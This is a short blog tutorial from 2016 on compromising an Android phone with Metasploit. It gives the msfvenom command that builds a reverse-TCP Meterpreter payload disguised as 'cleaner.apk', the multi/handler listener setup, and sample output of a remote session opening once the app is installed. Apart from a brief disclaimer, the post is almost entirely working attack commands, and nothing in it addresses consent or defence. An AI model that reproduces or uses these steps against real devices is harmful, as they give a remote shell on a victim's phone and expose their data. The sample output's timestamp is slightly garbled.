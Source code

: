 ```yaml
---
layout: post
title: "How to hack an Android Device"
date: 2016-05-24
subtitle: "A tutorial for hacking an android device using Metasploit Framework on Kali Linux."
tags: foss tutorial
permalink: /hack-an-android/
---
```


This is a tutorial for hacking an android using Metasploit Framework.

*Note: This tutorial is for educational purposes I'm not responsible for any misuse of it.*

## Requirements:
<br />
* Kali Linux
* Metasploit Framework installed.

*Note: This can be done on other distros with Metasploit package but Kali Linux gives favourable environment with all packages pre-installed.*

## Steps:
<br />
* Create an android apk file using msfvenom.
```bash
$ msfvenom -p android/meterpreter/reverse_tcp LHOST="IP ADDR"
 LPORT=4444 R > cleaner.apk
```
*Note: Replace IP ADDR with your ip address.*

* Fire up msfconsole
```bash
$ msfconsole
```
* To listen to the payload, setup a handler.
```bash
msf> use exploit/multi/handler
msf exploit(handler)> set PAYLOAD android/meterpreter/reverse_tcp
```

* Check its configurations.
```bash
msf exploit(handler)> show options
```

* Set the LHOST and LPORT you specified earlier using these commands.
```bash
msf exploit(handler)> set LHOST "IP ADDR"
msf exploit(handler)> set LPORT 4444
```

* Start the exploit
```bash
msf exploit(handler)> exploit
```
You need to transfer the apk file we generated previously to the testing phone and install it. Once that app is opened in the phone meterpreter session will start.
```bash
[*] Started reverse TCP handler on 192.168.0.100:4444
[*] Starting the payload handler...
[*] Sending stage (63194 bytes) to 192.168.0.106
[*] Meterpreter session 1 opened (192.168.0.100:4444 ->
 192.168.0.106:35897) at 2016-055-24 _05:30
meterpreter >
```
* Done!

* For options use this
```bash
meterpreter > help
```
